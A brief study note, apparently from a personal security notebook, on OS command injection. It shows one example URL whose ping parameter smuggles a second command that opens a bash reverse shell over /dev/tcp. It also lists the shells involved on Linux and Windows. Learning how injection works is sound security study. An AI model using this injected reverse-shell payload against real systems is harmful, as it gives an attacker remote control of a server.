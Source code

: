 ```yaml
---
title: OS command injections
updated: 2025-05-12 02:34:57Z
created: 2025-05-12 02:30:54Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


Eg: Do a ping , but ALSO do a **bash** command
`http://target.com/vuln?ping=192.168.50.51 ; bash -i >& /dev/tcp/192.168.50.51`

**Linux**: SH or BASH
**Windows** CMD or PowerShell